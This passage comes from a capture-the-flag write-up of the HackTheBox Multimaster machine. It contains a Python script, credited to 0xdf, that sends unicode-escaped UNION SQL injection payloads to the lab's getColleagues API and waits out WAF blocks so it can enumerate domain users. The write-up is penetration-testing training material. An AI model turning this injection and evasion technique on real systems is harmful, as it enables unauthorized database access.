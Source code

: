 <figure><img src="../../.gitbook/assets/multi_enum_domain_steps.png" alt=""><figcaption><p>Figure 16: Enumerating the domain name (1), the Domain Admins RID (2), and confirming the Administrator's RID (3).</p></figcaption></figure>

We can now use [0xdf](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html)'s Python3 script to brute force the domain users:

```python
#!/usr/bin/env python3

import binascii
import requests
import struct
import sys
import time


payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""


def unicode_escape(s):
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])


def issue_query(sql):
    while True:
        resp = requests.post(
            "http://10.10.10.179/api/getColleagues",
            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
        )
        if resp.status_code != 403:
            break
        sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)
    return resp.json()[0]["email"]
```

[^1]: Elevation of Privileges
[^2]: Living Off The Land
[^3]: Elevation of Privileges
[^4]: Proof of Concept
[^5]: Living Off The Land
[^6]: Elevation of Privileges
[^7]: Living Off The Land
[^8]: Elevation of Privileges
[^9]: Living Off The Land